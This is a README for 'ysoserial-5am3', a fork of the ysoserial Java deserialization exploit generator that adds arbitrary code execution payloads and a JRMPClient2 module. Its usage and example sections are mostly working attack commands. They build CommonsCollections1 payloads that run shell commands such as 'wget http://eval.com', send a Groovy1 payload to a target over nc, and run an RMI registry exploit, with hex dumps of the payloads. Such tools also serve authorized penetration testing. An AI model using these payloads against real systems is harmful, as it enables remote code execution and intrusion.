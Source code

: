 
# ysoserial-5am3

> forked from frohoff/ysoserial



## Description

基于原版的一个魔改版。

- [x] 在原版生成命令执行基础上，使其支持生成代码执行Payload
- [x] Add JRMPClient2 (https://xz.aliyun.com/t/2479#toc-1)

## Usage

```bash
# 1.调用模块
# java -cp ./ysoserial-5am3.jar <模块名> <所需参数> 
java -cp ./ysoserial-5am3.jar ysoserial.exploit.JRMPListener 8579 URLDNS 

# 2.采用内置poc，生成反序列化payload

# 2.1.默认
# java -jar ./ysoserial-5am3.jar <POC名称> <所需参数> 
# 默认生成为二进制字节
java -jar ./ysoserial-5am3.jar JRMPClient2 10.0.0.1:8119

# 2.2.payload中含有命令执行等参数
# 2.2.1 执行shell命令

java -jar ysoserial.jar CommonsCollections1 "wget http://eval.com"

# 2.2.2 执行java代码

java -jar ysoserial.jar CommonsCollections1 'code:System.out.println("Hello Hack!");'
```

## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Download & Building 

Requires Java 1.7+ and Maven 3.x+

```bash

git clone https://github.com/5am3/ysoserial.git
cd ysoserial
mvn clean package -DskipTests
java -jar ./target/ysoserial-0.0.6-SNAPSHOT-all.jar
```
